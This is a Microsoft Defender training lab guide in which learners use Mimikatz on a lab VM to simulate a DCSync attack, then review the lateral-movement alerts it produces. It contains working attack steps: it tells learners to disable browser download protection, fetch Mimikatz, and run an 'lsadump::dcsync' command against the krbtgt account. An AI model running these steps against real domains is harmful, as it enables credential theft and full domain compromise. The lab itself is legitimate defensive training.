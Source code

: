 # Lab 13: Simulate and Detect Lateral Movement Attacks

## Overview

In this lab, you will simulate a Lateral Movement attack using the Mimikatz tool and detect it through Microsoft Defender for Identity. This task is **Read-only**—running the attack will trigger Defender’s containment measures, logging you out of the virtual machine and preventing re-login for security reasons.

> **⚠ Important Usage Guidance:** Microsoft Defender for Office 365 may take some time to load certain results or complete specific labs from the backend. This is expected behavior. If the data does not appear after a couple of refresh attempts, proceed with the next lab and return later to check the results.

> **Note:** This exercise is **Read-only** because the tool used below is blocked by Microsoft Defender. If this software is used for any malicious activity, Microsoft Defender will flag the user as a threat, resulting in an automatic logout from the virtual machine. The user will not be able to log in again.

1. In Azure portal, Search for **Virtual machines (1)** and select **Virtual machines (2)**.

   ![VMrdp](./media/vm.png)

1. Select the virtual machine **s2vm-<inject key="DeploymentID" enableCopy="false" />** from the list.

   ![VMrdp](./media/xdr26.png)

1. At the beginning of the virtual machine page, click on **Connect (1)**, and from the drop-down select **Connect (2)**.

   ![VMrdp](./media/xdr27.png)

1. On the Connect to Virtual Machine page, select RDP, Choose the option to **Download RDP File.**

   ![VMrdp](./media/xdr28.png)

   > **Note:** You might see the warning option while downloading the rdp file. please click on **keep.**

1. Open the downloaded RDP file from the downloads.

   ![VMrdp](./media/xdr23.png)

1. Select Connect when prompted. You will get a warning that the .rdp file is from an unknown publisher. This is expected. In the Remote Desktop Connection window, select Connect to continue.

   ![VMrdp](./media/vm8.png)

1. In the Windows Security window, select **More Choices.**

   ![VMrdp](./media/xdr24.png)

1. Then Use a different account. Enter **Username:** <inject key="Labvm Admin Username"></inject> **(1)** and **Password:** <inject key="Labvm Admin Password"></inject> **(2)** and then select **OK (3).**

   ![VMrdp](./media/vm6.png)

1. Select **Yes** to verify the identity of the virtual machine and finish logging on.

   ![VMrdp](./media/vm7.png)

1. You should now be connected to the virtual machine via Remote Desktop.

1. Open **Microsoft Edge** browser and navigate to **Settings**

   ![image](./media/attack1.png)

1. Click on **Privacy, search, and services** and select **Security**

   ![image](./media/attack1.png)

1. Turn off the toggle switch for the option **Protect from harmful sites and downloads**

   ![image](./media/attack1.png)

1. Close the **Settings** tab and navigate to below mentioned GitHub repository

   ```
   https://github.com/ParrotSec/mimikatz
   ```
   > **Note:** Mimikatz is an open-source tool primarily designed to extract authentication credentials from the memory of Windows operating systems

   ![image](./media/attack1.png)

1. Once you are in the mimikatz Github page, click on **Code** and then click on **Download ZIP**

   ![image](./media/attack1.png)

1. Once the download is complete, navigate to `C:\Downloads` and unzip the **mimikatz.zip** file,

   ![image](./media/attack1.png)

1. Open **PowerShell (Admin)** and navigate to the below mentioned directory.

   ```powershell
   cd C:\Downloads\mimikatz-master\mimikatz-master\x64
   ```

   ![image](./media/attack1.png)

1. In the same PowerShell session, run the below command to run the mimikatz application

   ```powershell
   mimikatz.exe 
   ```

   ![image](./media/attack1.png)

1. Simulate a DC Sync attack and extract the credentials of the krbtgt account.

   ```shell
   lsadump::dcsync /domain:defenderxdr.internal /user:krbtgt
   ```

   ![image](./media/attack1.png)

1. Once this command executes, Microsoft Defender’s attack disruption feature will log the user out of the Virtual Machine and prevent them from logging back in.

1. Now you can check your alerts in the Microsoft Defender portal, navigate to **Incidents & alerts** in the left-hand navigation pane.

   ![](./media/E1T3S3upd1.png)

1. Click **Alerts** to view the alerts queue.

1. You will find alerts with the below names
   - **Lateral movement using remote logon by contained user blocked**
   - **Lateral movement using RDP blocked**

   ![](./media/E1T3S3upd.png)

## Review

In this lab, you:
- Launched the Mimikatz tool from PowerShell (Admin) to simulate a DC Sync attack.
- Attempted to extract the credentials of the `krbtgt` account.
- Observed automatic containment measures initiated by Microsoft Defender for Identity.
- Verified alerts in the Microsoft Defender portal for blocked lateral movement attempts via remote logon and RDP.

## You have successfully completed the lab. Click on Next to Continue
